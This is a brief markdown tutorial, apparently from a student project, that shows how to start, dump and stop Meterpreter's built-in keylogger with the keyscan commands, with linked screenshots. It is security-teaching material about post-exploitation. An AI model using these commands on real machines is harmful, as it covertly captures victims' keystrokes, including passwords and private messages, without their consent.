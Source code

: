 # Using Keyscan in Meterpreter

To begin keylogging in Meterpreter, simply type **keyscan_start**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/keyscanstart.png" width="600">

---
To see the captured keystrokes, simply type **keyscan_dump**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/keyscandump.png" width="600">

---
To stop the keylogger in Meterpreter, simply type **keyscan_stop**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/keyscanstop.png" width="600">

---
